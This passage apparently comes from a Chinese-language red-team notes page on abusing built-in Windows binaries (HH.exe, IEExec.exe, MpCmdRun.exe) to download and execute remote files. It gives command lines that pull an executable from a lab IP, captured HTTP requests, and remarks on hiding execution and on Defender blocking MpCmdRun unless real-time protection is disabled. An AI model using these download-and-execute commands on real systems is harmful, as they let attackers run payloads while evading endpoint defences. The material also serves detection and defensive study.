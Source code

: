 ```powershell
HH.exe http://192.168.220.125/white_process/call_calc.exe
```

[***pcap***](/assets/pcap/HH.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Accept: */*
Accept-Language: zh-CN
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

***Note*** 下载后会直接打开, 目前没有找到能做隐藏的参数

### 7. IEExec *Microsoft IE Execute shell*

download and execute files from remote server

```powershell
C:\Users\test\Desktop>c:\Windows\Microsoft.NET\Framework\v2.0.50727\IEExec.exe http://192.168.220.125/white_process/call_calc.exe
```

[***pcap***](/assets/pcap/IEExec.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

***Note*** IEExec 在 .net 目录下, 需要找一下

### 8. MpCmdRun

```powershell
"c:\Program Files\Windows Defender\MpCmdRun.exe" -DownloadFile -url http://192.168.220.125/white_progress/test -path c:\test.exe
```

***Note***

*根据下面 reference 的说法, MpCmdRun 在 `4.18.2008.9` 版本中引入了 `-DownloadFile` 参数, 然而手里没有这个版本的环境, 只有一个`4.18.2010.7`的有这个参数*

*但是, 对于这个版本的windows defender, 直接把通过 `MpCmdRun` 下载的行为视为危险行为, 行为加白或关掉实时防护, 直接报参数错误*
